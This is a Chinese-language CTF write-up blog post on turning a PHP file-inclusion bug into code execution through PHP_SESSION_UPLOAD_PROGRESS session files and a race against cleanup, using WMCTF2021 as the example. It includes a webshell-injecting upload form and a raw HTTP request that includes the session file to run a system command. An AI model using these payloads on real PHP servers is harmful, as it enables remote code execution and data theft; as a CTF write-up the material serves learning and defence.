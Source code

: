 ```yaml
---
layout: post
title: 利用PHP_SESSION_UPLOAD_PROGRESS进行文件包含攻击
date: 2021-08-05 16:36 +0800
last_modified_at: 2021-08-05 16:36:00 +0800
tags: [CTF,Web,Write-up]
toc:  true
---
```

关键词：PHP_SESSION_UPLOAD_PROGRESS文件包含攻击

在php5.4版本新添加的功能PHP_SESSION_UPLOAD_PROGRESS，在php.ini中表现为：

```
1. session.upload_progress.enabled = on
2. session.upload_progress.cleanup = on
3. session.upload_progress.prefix = "upload_progress_"
4. session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"
5. session.upload_progress.freq = "1%"
6. session.upload_progress.min_freq = "1"
```

`enabled=on`表示`upload_progress`功能开始，也意味着当浏览器向服务器上传一个文件时，php将会把此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中 ；

`cleanup=on`表示当文件上传结束后，php将会立即清空对应session文件中的内容，这个选项非常重要；

`name`当它出现在表单中，php将会报告上传进度，最大的好处是，它的值可控；

`prefix+name`将表示为session中的键名

而在文件包含的过程中，当存在文件包含漏洞，即使没有文件上传，我们也可以通过session将恶意语句写入session文件并且对其进行包含（在知道session存放位置的情况下）。

**问题一**

代码里没有`session_start()`,如何创建session文件呢。

**解答一**

其实，如果`session.auto_start=On` ，则PHP在接收请求的时候会自动初始化Session，不再需要执行session_start()。但默认情况下，这个选项都是关闭的。

但session还有一个默认选项，session.use_strict_mode默认值为0。此时用户是可以自己定义Session ID的。比如，我们在Cookie里设置PHPSESSID=TGAO，PHP将会在服务器上创建一个文件：/tmp/sess_TGAO”。即使此时用户没有初始化Session，PHP也会自动初始化Session。 并产生一个键值，这个键值有ini.get("session.upload_progress.prefix")+由我们构造的session.upload_progress.name值组成，最后被写入sess_文件里。

**问题二**

但是问题来了，默认配置`session.upload_progress.cleanup = on`导致文件上传后，session文件内容立即清空，

**如何进行rce呢？**

**解答二**

此时我们可以利用竞争，在session文件内容清空前进行包含利用。

实例题目：WMCTF2021 Make_PHP_Great_Again

index给了文件包含

```
<?php
highlight_file(__FILE__);
require_once 'flag.php';
if(isset($_GET['file'])) {
  require_once $_GET['file'];
}
```

尝试利用session进行文件上传

首先利用session做一个文件上传的界面

```
<!DOCTYPE html>
<html>
<body>
<form action="http://5bee85f4-0831-4fcf-a4c2-f33a607684b0.node3.buuoj.cn/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123<?php eval($_POST['shell']);?>" />
    <input type="file" name="file" />
    <input type="submit" value="submit" />
</form>
</body>
</html>
```

抓包后进行修改：

```
POST /?file=/tmp/sess_heartless HTTP/1.1
Host: 3e771492-4c79-4e06-b736-a86a8ea88e39.node4.buuoj.cn:81
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------27493672372255116902375708634
Content-Length: 2629
Origin: http://localhost
Connection: close
Referer: http://localhost/
Cookie:PHPSESSID=heartless
Upgrade-Insecure-Requests: 1

-----------------------------27493672372255116902375708634
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

§123§<?php eval(system('cat flag.php'));?>
-----------------------------27493672372255116902375708634
Content-Disposition: form-data; name="file"; filename="exp.php"
Content-Type: text/plain
<?php eval($_POST['shell']);?>
-----------------------------27493672372255116902375708634--
```

放到burp里面爆破得出flag

![image-20210805171943779](C:\Gitbook\Import\heart1ess_s_ctf\blogs\assets\wm1.png)